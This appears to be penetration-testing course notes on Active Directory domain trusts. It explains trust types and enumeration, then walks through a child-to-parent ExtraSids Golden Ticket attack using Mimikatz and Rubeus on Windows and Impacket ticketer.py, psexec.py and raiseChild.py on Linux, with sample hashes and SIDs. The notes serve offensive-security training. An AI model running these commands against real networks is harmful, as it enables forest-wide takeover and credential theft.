

# Domain Trust Attacks (Why so Trusting?)

In this section will cover:
- Domain Trusts Primer
- Attacking Domain Trusts - Child -> Parent Trusts - from Windows
- Attacking Domain Trusts - Child -> Parent Trusts - from Linux

## Domain Trusts Primer

Many large organizations will acquire new companies over time and bring them into the fold. One way this is done for ease of use is to establish a trust relationship with the new domain. In doing so, you can avoid migrating all the established objects, making integration much quicker. This trust can also introduce weaknesses into the customer's environment if they are not careful. A subdomain with an exploitable flaw or vulnerability can provide us with a quick route into the target domain. Companies may also establish trusts with other companies (such as an MSP), a customer, or other business units of the same company (such as a division of the company in another geographical region).

### Domain Trusts Overview

A trust is used to establish forest-forest or domain-domain (intra-domain) authentication, which allows users to access resources in (or perform administrative tasks) another domain, outside of the main domain where their account resides. A trust creates a link between the authentication systems of two domains and may allow either one-way or two-way (bidirectional) communication. An organization can create various types of trusts:
- Parent-child: Two or more domains within the same forest. The child domain has a two-way transitive trust with the parent domain, meaning that users in the child domain `<subdomain>` could authenticate into the parent domain `<MainDomain>`, and vice-versa.
- Cross-link: A trust between child domains to speed up authentication.
- External: A non-transitive trust between two separate domains in separate forests which are not already joined by a forest trust. This type of trust utilizes SID filtering or filters out authentication requests (by SID) not from the trusted domain.
- Tree-root: A two-way transitive trust between a forest root domain and a new tree root domain. They are created by design when you set up a new tree root domain within a forest.
- Forest: A transitive trust between two forest root domains.
- ESAE: A bastion forest used to manage Active Directory.

Trusts can be transitive or non-transitive.
- A transitive trust means that trust is extended to objects that the child domain trusts. For example, let's say we have three domains. In a transitive relationship, if Domain A has a trust with Domain B, and Domain B has a transitive trust with Domain C, then Domain A will automatically trust Domain C.
- In a non-transitive trust, the child domain itself is the only one trusted.



**Trust Table Side By Side**

| Transitive                                           | Non-Transitive                                  |
|------------------------------------------------------|------------------------------------------------|
| Shared, 1 to many                                    | Direct trust                                    |
| The trust is shared with anyone in the forest        | Not extended to next level child domains        |
| Forest, tree-root, parent-child, and cross-link trusts are transitive | Typical for external or custom trust setups     |

For a transitive trust, you have extended the permission to anyone in your household (forest) to accept a package on your behalf. For a non-transitive trust, you have given strict orders with the package that no one other than the delivery service and you can handle the package, and only you can sign for it.

Trusts can be set up in two directions: one-way or two-way (bidirectional).
- **One-way trust**: Users in a trusted domain can access resources in a trusting domain, not vice-versa.
- **Bidirectional trust**: Users from both trusting domains can access resources in the other domain. For example, in a bidirectional trust between `<domain1>` and `<domain2>`, users in `<domain1>` would be able to access resources in `<domain2>`L, and vice-versa.

### Enumerating Trust Relationships

**Activedirectory**
````powershell
# Using Get-ADTrust
> Import-Module activedirectory
> Get-ADTrust -Filter *

# Checking for Existing Trusts using Get-DomainTrust
> Get-DomainTrust
````
**PowerView**

PowerView can be used to perform a domain trust mapping and provide information such as the type of trust (parent/child, external, forest) and the direction of the trust (one-way or bidirectional). This information is beneficial once a foothold is obtained, and we plan to compromise the environment further.
````powershell
# Using Get-DomainTrustMapping
> Get-DomainTrustMapping

# Checking Users in the Child Domain using Get-DomainUser
> Get-DomainUser -Domain <subdomain> | select SamAccountName
````
**Netdom**
````cmd
# Using netdom to query domain trust
> netdom query /domain:<domain> trust

# Using netdom to query domain controllers
> netdom query /domain:<domain> dc

# Using netdom to query workstations and servers
> netdom query /domain:<domain> workstation
````

We can also use **BloodHound** to visualize these trust relationships by using the Map Domain Trusts pre-built query.

## Attacking Domain Trusts - Child -> Parent Trusts - from Windows

### SID History Primer

The sidHistory attribute is used in migration scenarios. If a user in one domain is migrated to another domain, a new account is created in the second domain. The original user's SID will be added to the new user's SID history attribute, ensuring that the user can still access resources in the original domain.

SID history is intended to work across domains, but can work in the same domain. Using Mimikatz, an attacker can perform SID history injection and add an administrator account to the SID History attribute of an account they control. When logging in with this account, all of the SIDs associated with the account are added to the user's token.

This token is used to determine what resources the account can access. If the SID of a Domain Admin account is added to the SID History attribute of this account, then this account will be able to perform DCSync and create a Golden Ticket or a Kerberos ticket-granting ticket (TGT), which will allow for us to authenticate as any account in the domain of our choosing for further persistence.

### ExtraSids Attack

**Mimikatz**

This attack allows for the compromise of a parent domain once the child domain has been compromised. Within the same AD forest, the sidHistory property is respected due to a lack of SID Filtering protection. SID Filtering is a protection put in place to filter out authentication requests from a domain in another forest across a trust. Therefore, if a user in a child domain that has their sidHistory set to the Enterprise Admins group (which only exists in the parent domain), they are treated as a member of this group, which allows for administrative access to the entire forest. In other words, we are creating a Golden Ticket from the compromised child domain to compromise the parent domain. In this case, we will leverage the SIDHistory to grant an account (or non-existent account) Enterprise Admin rights by modifying this attribute to contain the SID for the Enterprise Admins group, which will give us full access to the parent domain without actually being part of the group.

To perform this attack after compromising a child domain, we need the following:
- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.
- With this data collected, the attack can be performed with Mimikatz.

The KRBTGT account can be used to create Kerberos TGT tickets that can be used to request TGS tickets for any service on any host in the domain. This is also known as the Golden Ticket attack and is a well-known persistence mechanism for attackers in Active Directory environments. The only way to invalidate a Golden Ticket is to change the password of the KRBTGT account, which should be done periodically and definitely after a penetration test assessment where full domain compromise is reached.

````powershell
# Obtaining the KRBTGT Account's NT Hash using Mimikatz
# lsadump::dcsync /user:<domain>\krbtgt

# Using Get-DomainSID
> Get-DomainSID

# Obtaining Enterprise Admins Group's SID using Get-DomainGroup
> Get-DomainGroup -Domain <domain> -Identity "Enterprise Admins" | select distinguishedname,objectsid
````
We have gathered the following data points:
- The KRBTGT hash for the child domain: 9d765b482771505cbe97411065964d5f
- The SID for the child domain: S-1-5-21-2806153819-209893948-922872689
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: hacker
- The FQDN of the child domain: `<subdomain>`
- The SID of the Enterprise Admins group of the root domain: S-1-5-21-3842939050-3880317879-2865463114-519
````powershell
# Creating a Golden Ticket with Mimikatz
# kerberos::golden /user:hacker /domain:<subdomain> /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
````

**Rubeus**

````powershell
# Creating a Golden Ticket using Rubeus
>  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:<subdomain> /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

# Confirming the Ticket is in Memory Using klist
> klist

# Performing a DCSync Attack
# lsadump::dcsync /user:<domain>\<user>
# lsadump::dcsync /user:<domain>\<user> /domain:<domain>
````

## Attacking Domain Trusts - Child -> Parent Trusts - from Linux

To do so, we'll still need to gather the same bits of information:
- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain

Once we have complete control of the child domain, `<subdomain>`, we can use secretsdump.py to DCSync and grab the NTLM hash for the KRBTGT account.

````bash
# Looking for the Domain SID
$ lookupsid.py <subdomain>/<user>@<dc_subdomain_ip> | grep "Domain SID"

# Grabbing the Domain SID & Attaching to Enterprise Admin's RID
$ lookupsid.py <subdomain>/<user>@<dc_subdomain_ip> | grep -B12 "Enterprise Admins"
````
We have gathered the following data points to construct the command for our attack. Once again, we will use the non-existent user hacker to forge our Golden Ticket.
- The KRBTGT hash for the child domain: 9d765b482771505cbe97411065964d5f
- The SID for the child domain: S-1-5-21-2806153819-209893948-922872689
- The name of a target user in the child domain (does not need to exist!): hacker
- The FQDN of the child domain: `<subdomain>`
- The SID of the Enterprise Admins group of the root domain: S-1-5-21-3842939050-3880317879-2865463114-519

````bash
# Constructing a Golden Ticket using ticketer.py
$ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain <subdomain> -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

# Setting the KRB5CCNAME Environment Variable
$ export KRB5CCNAME=hacker.ccache

# Getting a SYSTEM shell using Impacket's psexec.py
$ psexec.py <subdomain>/hacker@<main_domain_host_dc> -k -no-pass -target-ip <IP_DC_Main>
````

Impacket also has the tool **raiseChild.py**, which will automate escalating from child to parent domain. We need to specify the target domain controller and credentials for an administrative user in the child domain; the script will do the rest. If we walk through the output, we see that it starts by listing out the child and parent domain's fully qualified domain names (FQDN). It then:
- Obtains the SID for the Enterprise Admins group of the parent domain
- Retrieves the hash for the KRBTGT account in the child domain
- Creates a Golden Ticket
- Logs into the parent domain
- Retrieves credentials for the Administrator account in the parent domain

**Performing the Attack with raiseChild.py**
````bash
$ raiseChild.py -target-exec <IP_DC_Main> <subdomain>/<user>
````

 The workflow is as follows:
 
 **Input**
 
1. child-domain Admin credentials (password, hashes or aesKey) in the form of 'domain/username[:password]'. The domain specified MUST be the domain FQDN.  
2. Optionally a pathname to save the generated golden ticket (-w switch).  
3. Optionally a target-user RID to get credentials (-targetRID switch). Administrator by default. 
4. Optionally a target to PSEXEC with the target-user privileges to (-target-exec switch). Enterprise Admin by default.  
  
---

**Process**

1. Find out where the child domain controller is located and get its info (via [MS-NRPC])  
2. Find out what the forest FQDN is (via [MS-NRPC])  
3. Get the forest's Enterprise Admin SID (via [MS-LSAT])
4. Get the child domain's krbtgt credentials (via [MS-DRSR])  
5. Create a Golden Ticket specifying SID from 3) inside the KERB_VALIDATION_INFO's ExtraSids array and setting expiration 10 years from now
6. Use the generated ticket to log into the forest and get the target user info (krbtgt/admin by default)  
7. If file was specified, save the golden ticket in ccache format  
8. If target was specified, a PSEXEC shell is launched  

---

**Output**

1. Target user credentials (Forest's krbtgt/admin credentials by default)  
2. A golden ticket saved in ccache for future fun and profit  
3. PSExec Shell with the target-user privileges (Enterprise Admin privileges by default) at target-exec parameter.
